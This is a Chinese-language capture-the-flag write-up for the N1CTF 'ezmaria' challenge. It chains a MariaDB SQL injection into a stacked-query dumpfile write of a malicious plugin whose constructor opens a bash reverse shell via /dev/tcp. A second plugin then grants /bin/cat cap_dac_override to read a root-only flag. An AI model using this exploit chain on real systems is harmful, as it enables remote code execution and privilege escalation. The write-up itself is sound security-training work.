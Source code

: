 # N1CTF ezmaria writeup
- 第一步  
    尝试用load_file读取源码
    ```
    id=0 union select 1, load_file('/var/www/html/index.php')
    ```
    发现`if ($_REQUEST["secret"] === "lolita_love_you_forever")`会执行一些命令，ps的结果
    ```
    mariadbd --skip-grant-tables --secure-file-priv= --datadir=/mysql/data --plugin_dir=/mysql/plugin --user=mysql
    ```
    可以看到mysql的plugin目录是`/mysql/plugin`以及`secure-file-priv`是空的，过滤了outfile但没有过滤dumpfile，而且使用的是multi_query，可以进行堆叠注入  

- 第二步  
    写插件并且加载，反弹shell  
    恢复mysql的表，因为用skip-grant-tables启动
    ```
    CREATE DATABASE IF NOT EXISTS mysql;
    use mysql;
    CREATE TABLE IF NOT EXISTS plugin ( name varchar(64) DEFAULT '' NOT NULL, dl varchar(128) DEFAULT '' NOT NULL, PRIMARY KEY (name) ) engine=Aria transactional=1 CHARACTER SET utf8mb3 COLLATE utf8mb3_general_ci comment='MySQL plugins';
    ```
    编写插件
    ```
    #include <stdlib.h>
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    void lshell(){
        
        system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1 &'");
    }
    class LOLITA {
    public:
        LOLITA(){
            lshell();
        }
    };
    LOLITA lolita;
    LOLITA* _mysql_plugin_interface_version_ = &lolita;
    //compile: g++ expso.cpp -shared -fPIC -o exp.so
    ```
    将编译出来的so文件用dumpfile写到/mysql/plugin/目录
    ```
    f = open("exp.so", 'rb')
    xid = "1; select unhex('" + ''.join(['%02X' % b for b in bytes(f.read())]) + "') into dumpfile '/mysql/plugin/lolita.so';"
    res = requests.post(url, data={
        "id": xid
    })
    print(res.text)
    ```
    最后安装插件反弹shell  
    ```INSTALL PLUGIN plugin_name SONAME 'lolita.so'```

- 第三步  
    可以看到/flag没有权限读取，找suid和cap
    ```
    find / -user root -perm -4000 -print 2>/dev/null
    getcap -r / 2>/dev/null

    /usr/bin/mariadb cap_setfcap=ep
    ```
    可以看到/usr/bin/mariadb有cap_setfcap权限
    参考`https://blog.csdn.net/xdy762024688/article/details/132237969`  
    也就是我们能给其他文件设置cap  
    给mariadb写个插件
    ```
    #include <stdlib.h>
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    #include <sys/capability.h>


    void lshell(){
        cap_t caps = cap_from_text("cap_dac_override=eip");
        cap_set_file("/bin/cat", caps);
        printf("setcap finished\n");
    }

    class LOLITA {
    public:
        LOLITA(){
            lshell();
        }
    };
    LOLITA _mysql_client_plugin_declaration_;
    //compile: g++ expcap.cpp -shared -fPIC -o cap.so -lcap2
    ```
    将编译出来的文件传到靶机（dd < /dev/tcp/ip/port > cap.so）  
    加载这个so让/bin/cat获取cap_dac_override（忽略文件权限）的特权  
    ```
    mariadb --plugin-dir=. --default-auth=cap
    cat /flag
    ```

- 赛后总结  
    hint没放好，`skip-grant-tables`这一步很容易想不到，最后还是有8个队伍做出来了  
    